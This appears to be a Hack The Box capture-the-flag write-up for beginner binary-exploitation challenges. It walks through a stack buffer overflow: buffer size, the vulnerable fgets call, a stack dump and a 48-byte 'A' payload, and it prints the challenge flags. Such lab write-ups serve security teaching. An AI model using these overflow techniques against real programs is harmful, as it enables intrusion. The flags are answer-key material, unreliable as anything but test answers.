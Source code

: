 # PWN

## Initialise Connection

Nothing to write about - just run `nc ip port`.
> HTB{g3t_r34dy_f0r_s0m3_pwn}

## Questionnaire

Using `file gs` see that the file is 64-bit, dynamically linked, not stripped & with `checksec` - NX enabled

```text
What is the name of the custom function that gets called inside `main()`? (e.g. vulnerable_function())
`vuln()`
What is the size of the 'buffer' (in hex or decimal)?
`0x20`
Which custom function is never called? (e.g. vuln())
`gg()`
What is the name of the standard function that could trigger a Buffer Overflow? (e.g. fprintf())
`fgets`
Insert 30, then 39, then 40 'A's in the program and see the output.
After how many bytes a Segmentation Fault occurs (in hex or decimal)?
40
(using printf 'A%.0s' {1..30} | ./test)
What is the address of 'gg()' in hex? (e.g. 0x401337)
```

To answer the last question use `objdump -d ./test` and find `0000000000401176 <gg>:`
I initially entered it with trailing zeroes and without 0x prefix and it wasn't accepted - had to change the answer to `0x401176`.

> HTB{th30ry_bef0r3_4cti0n}

## Getting Started

Run ./gs:

```text
      [Addr]       |      [Value]
-------------------+-------------------
0x00007fffffffe090 | 0x4242424241414141 <- Start of buffer
0x00007fffffffe098 | 0x0000000000000000
0x00007fffffffe0a0 | 0x0000000000000000
0x00007fffffffe0a8 | 0x0000000000000000
0x00007fffffffe0b0 | 0x6969696969696969 <- Dummy value for alignment
0x00007fffffffe0b8 | 0x00000000deadbeef <- Target to change
0x00007fffffffe0c0 | 0x0000555555555800 <- Saved rbp
0x00007fffffffe0c8 | 0x00007ffff7a03c87 <- Saved return address
0x00007fffffffe0d0 | 0x0000000000000001
0x00007fffffffe0d8 | 0x00007fffffffe1a8

Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.
```

0x00007fffffffe0c0 - 0x00007fffffffe090 = 48
Modify wrapper.py setting `payload = b'A' * 48`, run and get the flag (HTB{b0f_s33m5_3z_r1ght?})
